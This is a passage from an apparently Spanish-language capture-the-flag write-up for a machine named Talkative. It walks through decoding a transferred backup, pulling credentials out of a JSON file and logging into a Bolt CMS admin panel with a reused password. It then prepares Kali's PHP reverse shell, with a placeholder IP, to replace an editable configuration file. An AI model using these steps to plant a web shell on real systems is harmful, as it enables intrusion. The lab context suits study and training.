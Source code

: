 

Ahora tenemos que analizar este archivo en nuestra máquina local, como no tenemos los servicios disponibles para transferir esto, vamos a convertir el archivo a base64 para copiarlo y decodificarlo en nuestra máquina.


Convertimos el archivo a base64: 

![1](https://nik0sec.github.io/assets/img/sample/Talkative/14.png)


Luego lo transferimos a nuestra máquina con el siguiente comando:

```terminal
echo "ELBASE64" | base64 -d > bolt.omv
```

![1](https://nik0sec.github.io/assets/img/sample/Talkative/15.png)

Ahora si hacemos un "file bolt.omv" podemos observar que es un archivo comprimido en zip, así que con 7z lo podemos descomprimir y nos da el siguiente resultado:

![1](https://nik0sec.github.io/assets/img/sample/Talkative/16.png)

Vemos un archivo json el cual podemos procesarlo con jq para que sea más legible y nos revela unas credenciales:

![1](https://nik0sec.github.io/assets/img/sample/Talkative/17.png)

Las guardamos y ahora las utilzaremos contra el CMS Bolt que hemos encontrado con anterioridad, no obstante, ninguna de las credenciales parece ser válida pero si usamos el usuario admin y la contraseña de Saul, podremos ingresar al panel:

![1](https://nik0sec.github.io/assets/img/sample/Talkative/18.png)

Una vez dentro, nos vamos al apartado de configuración y luego donde se encuentran todos los archivos de configuración del sistema:

![1](https://nik0sec.github.io/assets/img/sample/Talkative/19.png)

Luego observamos un archivo php llamado "bundles":

![1](https://nik0sec.github.io/assets/img/sample/Talkative/20.png) 

El cual tenemos permiso para editarlo, aquí es donde borramos el contenido existente y lo reemplazamos por una shell reversa la cuál se encuentra por defecto en Kali Linux como se muestra a continuación:


Comando para copiar nuestra reverse shell al directorio que nos encontramos actualmente
```terminal
cp /usr/share/webshells/php/php-reverse-shell.php .
```

Utilizamos el comando sed para reemplazar la IP que viene por defecto en la reverse shell

```terminal
sed -i 's/127.0.0.1/TUIP/' php-reverse-shell.php
```
